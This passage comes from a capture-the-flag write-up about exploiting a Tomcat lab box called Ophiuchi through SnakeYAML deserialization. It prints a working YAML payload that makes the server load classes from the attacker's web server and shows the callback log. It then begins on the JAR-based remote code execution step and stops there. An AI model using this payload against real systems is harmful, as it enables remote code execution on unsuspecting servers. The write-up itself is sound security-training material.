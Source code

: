 `/manager` is the Tomcat manager page, which needs creds, and the defaults don’t work.

`/test` redirects to `/test/` which is 404.

## Shell as tomcat

### Deserialization POC

YAML parsers are notoriously bad with safely handling data serialized data. Thinking about what the site is (or will be?) doing with input, it will try to parse the YAML into objects, which is deserialization.

Despite the site saying it’s down, it’s not clear if that is displayed before or after trying to deserialize the user input. I’ll try a YAML derserialization payload just to check. Since the server is Tomcat, I’ll look for Java-based payloads. In Googling “Java YAML deserialization”, there are a handful of blog posts about the topic. [This post](https://medium.com/@swapneildash/snakeyaml-deserilization-exploited-b4a2c5ac0858) has a nice test to see if Java Yaml deserialization would work, which when adapted for Ophiuchi becomes:

```

!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.7/"]
  ]]
]

```

I’ll start a Python webserver and put that into the form. On submitting, there’s a request:

```

oxdf@parrot$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.227 - - [14/Feb/2021 16:33:34] code 404, message File not found
10.10.10.227 - - [14/Feb/2021 16:33:34] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 404 -

```

This means the POC worked.

### RCE POC

The blog post now writes some Java code which it compiles into a `.class` file, and generates a folder structure for this request. I had a bit of a struggle getting that to work. I created the `/META-INF/services/javax.script.ScriptEngineFactory` file and the compiled Class file. Ophiuchi would read that and then request the class file, but then it would crash the page and not show any evidence of executing my code.

Some Googling led to [this marshalsec repo](https://github.com/mbechler/marshalsec) for all kinds of Java-based deserialization attacks, and then the [yaml-payload](https://github.com/artsploit/yaml-payload) repo, which focuses on this specific SnakeYAML deserialization attack. The payload looks exactly the same, but they put it into a JAR for loading. The YAML part now tries to load a JAR file instead of a URL path:
